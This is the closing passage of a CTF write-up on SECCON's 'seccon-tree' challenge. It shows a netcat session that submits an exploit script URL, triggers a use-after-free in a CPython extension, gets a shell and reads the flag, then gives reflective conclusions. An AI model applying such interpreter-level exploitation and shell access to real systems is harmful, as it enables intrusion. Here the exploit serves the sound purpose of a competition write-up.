 ```python
print(dangling_ref)
```

Note that you have to remove the comments in order to pass the check.

```
➜  ~ nc seccon-tree.quals.seccon.jp 30001
[Proof of Work]
Submit the token generated by `hashcash -mb25 dekeqerfx`
1:25:211214:dekeqerfx::WJ5uhR6NTxZ++3jN:00000000Xkev
matched token: 1:25:211214:dekeqerfx::WJ5uhR6NTxZ++3jN:00000000Xkev
check: ok
Give me the source code url (where filesize < 10000).
Someone says that https://transfer.sh/ is useful if you don't have your own server
http://REDACTED:8000/exp.py
[+] Triggering UAF
<seccon_tree.Tree object at 0x7fad95b94180>
0x7fad95b8c300
ls
banned_word
flag-2ed5991c0023b19e969ed2a7882a2d59
run.py
seccon_tree.cpython-39-x86_64-linux-gnu.so
template.py
cat flag*
SECCON{h34p_m4n463m3n7_15_h4rd_f0r_hum4n5....}
```

Sure is, seeing how this bug was apparently unintended :p.

## Conclusion

I thought this was quite a nice challenge. I didn't have any experience with CPython internally before this, so I learned a lot about the interpreter. 

We first-blooded this challenge about 6 hours into the CTF. I was surprised to see that the second solve was finally made about 16 hours into the CTF, as I didn't think this was that hard of a challenge. Maybe the `find` bug was actually a lot harder to exploit?

If the python binary would have had PIE, exploitation would be a bit harder, as you'd also have to leak libc or the executable base. I suppose you could leak values via the name or docstring field of the `PyTypeObject`though.

Thanks to [moratorium08](https://twitter.com/moratorium08) for the great challenge!
